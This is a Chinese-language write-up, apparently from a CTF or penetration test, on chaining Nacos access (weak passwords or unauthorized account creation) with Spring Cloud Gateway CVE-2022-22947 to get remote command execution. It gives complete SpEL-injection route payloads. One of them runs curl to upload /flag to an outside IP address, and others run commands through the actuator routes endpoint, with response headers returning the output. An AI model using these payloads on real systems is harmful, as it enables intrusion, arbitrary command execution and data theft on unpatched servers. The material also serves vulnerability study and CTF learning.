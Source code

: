 Spring Cloud Gateway曾出现CVE-2022-22947漏洞，该漏洞允许攻击者通过动态配置路由，执行SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。但实际情况可能有很多Spring Cloud Gateway存在漏洞，但未开放Actuator API，所以导致无法利用。但如果在资产收集时发现目标存在nacos，并且可用弱口令或者未授权漏洞创建用户登录进去的话，我们可以采用Nacos的动态配置特性结合Spring Cloud Gateway的RCE漏洞进行利用。
参考文章：<https://xz.aliyun.com/t/11493?time__1311=Cq0xRDnD070Q%3DGNPeeuAxfE1x9AB%3DDg7WoD>

利用nacos漏洞进入后台后，发现gateway配置文档，修改发布，进行spel注入命令执行。下面是json格式。
这里是给了个的jar，反编译查看到了基础的配置，根据配置添加nacos中配置文档，并发布。
![](.topwrite/assets/image_1735374395624.png)
```
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [
                    {
                        "id": "whocansee",
                        "order": 0,
                        "uri": "lb://backendservice",
                        "predicates": [
                            "Path=/echo/**"
                        ],
                        "filters": [
                            {
                                "name": "AddResponseHeader",
                                "args": {
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'curl','http://47.113.202.32:23233','-T','/flag'}).getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}
```
predicates是路由匹配规则，uri是转发的地址，这里是backendservice服务名

此时访问/echo/11触发，查看响应头有命令回显结果。





^
^
## **CVE-2022-22947漏洞回顾**

该漏洞在网上公开POC的利用方式是通过`/actuator/gateway/routes`这个节点进行动态添加路由的，当项目配置文件中配置了以下两行配置时（YAML格式），便会开启该接口：

```
management.endpoint.gateway.enabled: true
management.endpoints.web.exposure.include: gateway
```

其中发送的添加路由的数据包中的数据段如下：

```
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

我们可以先理解一下这段POC的含义，其中id字段代表的是路由的ID标识，而filters则是Spring Cloud Gateway中路由配置的过滤器，这里指定了过滤器`AddResponseHeader`，含义为对匹配到的请求的响应包中添加一个自定义的Header，其中名称为 Result，值为该漏洞利用的SpEL表达式，执行了命令`id`，也就是说当一个请求匹配到该路由时，返回包中应该会存在一个Header返回了我们定义的键值，利用成功的话会得到：`result: uid=0(root) gid=0（省略...）`

但POC中并未定义路由的匹配规则，因为开启actuator/gateway的话只需要刷新一下路由然后直接查看路由配置就可以得到命令执行的回显了。为了验证，我修改了一下POC，将其添加一条路由规则如下：

```
{
    "id": "aaa",
    "order": 0,
    "predicates": [
      {
        "args": {
          "_genkey_0": "/test/**"
        },
        "name": "Path"
      }
    ],"filters": [
{
    "name": "AddResponseHeader",
    "args": {
"name":"result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream())).replaceAll(\"\n\",\"\").replaceAll(\"\r\",\"\")}"}
  }],
    "uri": "http://example.com"
  }
```

发包添加成功：\
![](.topwrite/assets/image_1735375141726.png)

这条路由的含义就是增加了`predicates`来匹配请求的访问路径，当请求访问的路径匹配到了`/test/**`时，则触发该路由，然后再看到filters，跟之前的POC是一样的，最后再注意到`uri`参数，它的作用是当路由匹配到`/test/**`时，将其转发到`http://example.com`上，但注意这是个公网地址，在真实环境利用时应考虑到如果服务器不出网则可能造成路由转发失败。所以当我们访问了 [http://localhost:8080/test/时，路由会帮我们转发到。

接下来刷新一下路由，然后尝试访问一下/test路径看下效果：\
![](.topwrite/assets/image_1735375124789.png)

成功在响应包的头部增加了result字段，且值为我们希望的命令执行的结果。


